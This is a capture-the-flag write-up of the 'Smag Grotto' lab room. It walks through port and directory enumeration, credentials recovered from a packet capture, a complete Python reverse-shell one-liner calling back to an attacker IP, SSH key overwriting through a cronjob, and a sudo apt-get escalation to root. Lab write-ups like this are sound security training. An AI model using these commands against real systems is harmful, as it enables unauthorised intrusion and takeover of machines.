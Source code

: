 # Smag Grotto

10 July 2021

---

## Index
- [Enumeration](#enumeration)
- [Reverse Shell](#reverse-shell)
- [Priviledge Escalation](#priviledge-escalation)

---

```bash
export IP=10.10.94.23
```

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports:
```
22 ssh
80 http
```

Now enumerating the website with:

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html -o gobuster/dir_med_ini.txt
```

We notice a strange directory `/mail/` which has a wireshark capture file that is downloadable for us to explore.
Analysing the packet we notice two major things.
* Firstly, a hostname `development.smag.thm`
* Secondly, user credentials with which to login with

`helpdesk:cH4nG3M3_n0w`

Adding the hostname to `/etc/hosts` and using those credentials to login with, and are greeted with a splash page with the ability to send commands.

![splashpage](./.assets/splashpage.png)

Initially, I tried `whoami` and `ls` but no output was returned. I then opened tcpdump.

```bash
$ tcpdump -i utun1 icmp
```

And I could receive pings! But I couldn't access the commands anymore and it was stuck pinging me. So after restarting the machine I set about creating a reverse shell with which I could access the box.

### Reverse Shell

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.5.34",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I now had a shell to access the machine with and we can begin enumerating the machine to escalate priviledges. I kicked off with good old linpeas.
It quickly found a cronjob which would concatenate a backup of jake's public ssh key to his `.ssh/` folder. We can generate a new ssh key pair and overwrite the public one with ours and log in with our newly generated ssh key

```bash
$ ssh-keygen -f jake
```

### Priviledge Escalation

And now we wait for the cronjob to overwrite the file...
And one minute of waiting later, we can now login in as jake! And grab the user flag too.

Now we check for sudo permissions and notice that we can `sudo apt-get` without need of a password. 

![sudo apt-get](./.assets/sudo_perms.png)

Consulting gtfobins, we can run:

```bash
$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

To escalate priviledges! And nab the root flag!

And we are _**complete!**_

Enjoyable and straight-forward room.

![smag grotto](./.assets/smag_grotto.png)
